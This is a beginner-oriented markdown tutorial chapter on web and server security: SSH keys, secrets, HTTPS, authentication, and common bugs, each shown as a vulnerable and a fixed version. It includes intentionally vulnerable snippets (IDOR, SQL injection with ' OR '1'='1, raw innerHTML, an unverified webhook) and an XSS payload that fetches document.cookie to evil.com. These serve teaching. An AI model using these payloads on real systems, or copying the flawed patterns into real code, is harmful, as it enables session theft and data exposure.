

# 14 — Security Basics: SSH, Keys & Not Getting Owned

Security isn't a separate product — it's **how you handle keys, doors, and strangers**. You don't need a CISSP to avoid the top 90% of faceplants.

Each section below: **what it is → tiny example → what to do.**

---

## Threat model for vibe coders (who are we defending against?)

| Threat | Example in the wild |
|--------|---------------------|
| **Random internet** | Bot tries `postgres:5432` on every IP; finds someone's DB with no password |
| **Curious user** | Changes URL from `/api/invoices/100` to `/api/invoices/101` and sees someone else's PDF |
| **Leaked secret** | Intern commits `.env`; GitHub scrapers steal `sk_live_` in 4 minutes |
| **Supply chain** | Typo package `lodashh` steals env vars on `npm install` |
| **Human** | Fake "GitHub security" email → real password typed into fake login |

**Mini story:** Your app isn't special to attackers — they're running **scripts at scale**. You're closing obvious doors, not fighting Mission Impossible.

---

## HTTPS / TLS (the lock icon)

**HTTP** = postcard. **HTTPS** = sealed envelope.

**Example — coffee shop Wi‑Fi:**

```
Without HTTPS:
  You POST login password → anyone on same Wi‑Fi can read it (plain text)

With HTTPS:
  Browser ↔ api.yourapp.com encrypted → Wi‑Fi snoop sees gibberish
```

**What you do:**

- Prod URL is always `https://app.com` (Vercel/Railway issue certs for you).
- Dev on `http://localhost:3000` is fine; **never** prod login over `http://`.

---

## SSH: the remote control for servers

**SSH** = log into a remote Linux box securely.

**Example — you rented a $6/mo VPS to run a bot:**

```bash
# You (encrypted tunnel):
ssh deploy@203.0.113.42

# On the server you might:
cd /var/www/app && tail -f logs/error.log
```

**Git over SSH (no password every push):**

```bash
git remote -v
# origin  git@github.com:theanimatedmonk/how-the-internet-works.git

git push origin main
# GitHub checks your public key — no typing password
```

### Password vs SSH key — concrete

**Bad (password only on the internet):**

```bash
ssh root@203.0.113.42
# Password: hunter2   ← bots try thousands of passwords/day
```

**Good (key pair):**

```bash
# Once on your Mac:
ssh-keygen -t ed25519 -C "sajal@laptop"
# Creates:
#   ~/.ssh/id_ed25519      ← PRIVATE (never share)
#   ~/.ssh/id_ed25519.pub  ← PUBLIC (paste on server / GitHub)

# Server's ~/.ssh/authorized_keys contains one line from .pub file
ssh deploy@203.0.113.42
# No password prompt — crypto handshake instead
```

**Shareable vs never shareable:**

| File | OK to paste in DigitalOcean dashboard? |
|------|----------------------------------------|
| `id_ed25519.pub` | ✅ Yes |
| `id_ed25519` | ❌ Never — that's the actual key |

Metaphor: **public key** = lock on the door. **Private key** = only key in your pocket.

---

## Secrets — examples of right and wrong

See [chapter 13](./13-environments-secrets.md) for environments. Quick stories:

**Wrong — secret in repo:**

```javascript
// ❌ config.js committed to GitHub
export const STRIPE_SECRET = "sk_live_51AbC..."
```

**Right — secret from env:**

```javascript
// ✅ same repo, safe to commit
export const stripe = new Stripe(process.env.STRIPE_SECRET_KEY);
```

**Wrong — Slack:**

> "Here's the prod `.env` so you can test checkout" *pastes 12 lines*

**Right:**

> "Add `STRIPE_SECRET_KEY` in your Vercel **Preview** env — use test key from dashboard → Developers → API keys → `sk_test_...`"

**If key leaked:** Stripe dashboard → Roll key → update Vercel prod env → old key dead in ~60 seconds of panic.

---

## Authentication — examples

**MFA example:** Password stolen from data breach. Attacker logs into GitHub — gets stopped: "Enter code from your phone app." They don't have your phone. You keep your repos.

**Don't roll your own — example:**

```javascript
// ❌ "We'll hash with MD5 and store in localStorage"
localStorage.setItem("password", md5(userInput));

// ✅ Supabase / Clerk / Auth0 — battle-tested flows
const { data, error } = await supabase.auth.signInWithPassword({ email, password });
```

**Password storage on server (conceptual):**

```
User signs up with: "my-cool-password-123"

❌ DB row: password = "my-cool-password-123"
✅ DB row: password_hash = "$2b$12$KIXx..."  (bcrypt — can't reverse to plain text)
```

**Session cookie example:**

```
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

- `HttpOnly` → JavaScript can't `document.cookie` steal it (XSS harder)
- `Secure` → only sent over HTTPS

---

## Authorization — the classic bug with example

Maya is logged in. She should only see **her** invoice #100.

**Broken API:**

```javascript
// ❌ Trusts URL alone
app.get("/api/invoices/:id", async (req, res) => {
  const invoice = await db.invoice.find(req.params.id);
  res.json(invoice); // Returns ANY id — Alex tries /101, /102...
});
```

**Fixed API:**

```javascript
// ✅ Tie resource to logged-in user
app.get("/api/invoices/:id", async (req, res) => {
  const invoice = await db.invoice.find({
    id: req.params.id,
    userId: req.user.id, // Maya's id from session/JWT
  });
  if (!invoice) return res.status(404).json({ error: "Not found" });
  res.json(invoice);
});
```

**Browser test:** Open DevTools → Network → replay request with another ID. If data changes, you found an **IDOR** (Insecure Direct Object Reference). Fancy name, simple fix: **check ownership.**

---

## SQL injection — before / after

**Vulnerable (string concat):**

```javascript
// ❌ Never
const email = req.body.email; // attacker sends: ' OR '1'='1
const query = `SELECT * FROM users WHERE email = '${email}'`;
// Becomes: SELECT * FROM users WHERE email = '' OR '1'='1'  → logs in as first user
```

**Safe (parameterized):**

```javascript
// ✅ Prisma / prepared statements
const user = await prisma.user.findUnique({
  where: { email: req.body.email },
});
```

---

## XSS — before / after

**Vulnerable:**

```jsx
// ❌ User comment stored and rendered as raw HTML
<div dangerouslySetInnerHTML={{ __html: comment.body }} />
// Attacker comment: <script>fetch('https://evil.com?c='+document.cookie)</script>
```

**Safer:**

```jsx
// ✅ React escapes text by default
<p>{comment.body}</p>

// If you need rich text: use a sanitizer library, not innerHTML soup
```

---

## CSRF — tiny story

You're logged into `bank.com`. You visit `evil-memes.com`. Hidden form auto-POSTs "transfer $1000 to attacker" to `bank.com`. Your browser **sends your bank cookie** with the request.

**Mitigation example:** bank requires hidden **CSRF token** on every form that only their real pages know — evil site can't guess it. `SameSite=Lax` cookies help too.

---

## Rate limiting — example

```
Attacker tries 10,000 passwords on /login for user maya@co.com

Without rate limit: all 10,000 hit your DB
With rate limit: after 5 failures from same IP → 429 Too Many Requests, slow down
```

Upstash Redis or middleware: `max 5 login attempts / 15 min / IP`.

---

## Firewall — example

**Bad infrastructure diagram:**

```
Internet ──► Postgres port 5432 open to 0.0.0.0/0  💀
```

**Good:**

```
Internet ──► HTTPS 443 ──► Your API only
Postgres 5432 ──► only accepts connections from API server's private IP
```

Supabase/Neon: you often use **connection string + SSL**, not public open port anyway — still don't paste prod URL in client-side code.

---

## Webhook signature — example (Stripe-shaped)

**Without verification:**

```javascript
// ❌ Anyone can POST { type: "payment succeeded" }
app.post("/webhooks/stripe", (req, res) => {
  markOrderPaid(req.body); // free shopping for trolls
});
```

**With verification:**

```javascript
// ✅ Stripe docs: verify Stripe-Signature header with webhook secret from env
const event = stripe.webhooks.constructEvent(
  req.rawBody,
  req.headers["stripe-signature"],
  process.env.STRIPE_WEBHOOK_SECRET
);
// Only then markOrderPaid(event.data)
```

---

## Dependencies — example

```bash
# You type:
npm install left-pad-plus-ultra

# package.json now runs someone's postinstall script on every teammate's laptop
```

**Habit:** read npm page, check weekly downloads, prefer boring well-known packages. Commit `package-lock.json` so CI installs **exact** versions.

---

## Backups — example

**Tuesday 3pm:** migration typo drops column on prod.  
**With nightly backup:** restore to 2am snapshot, 1 hour downtime, apology tweet.  
**Without backup:** company becomes a Substack about lessons learned.

Toggle backups in Supabase/RDS/Render **before** launch, not after disaster.

---

## Social engineering — example

Slack DM from "CTO" (display name spoofed, wrong email):

> "Quick — need the AWS root password for audit"

**Correct move:** ignore DM, ping CTO on known channel or call them. Real CTOs don't ask for root passwords in Slack.

---

## Security checklist (with examples attached)



| Check | Example of "done" |
|-------|---------------------|
| HTTPS | `https://app.com` loads with padlock |
| Secrets | `.env` in `.gitignore`; Vercel has keys |
| MFA | GitHub Settings → 2FA enabled |
| Authz | `/invoices/999` returns 404 for wrong user |
| Backups | Supabase → Backups → daily schedule on |

---

## Builder takeaway

- **SSH:** `ssh user@ip` with keys, not `password123` on port 22.
- **HTTPS + env vars + MFA:** boring wins.
- **Examples above** are copy-paste patterns for code review — "do we look like the ❌ or ✅?"

Back to [README.md](./README.md) — or [chapter 13](./13-environments-secrets.md) for env-specific examples.
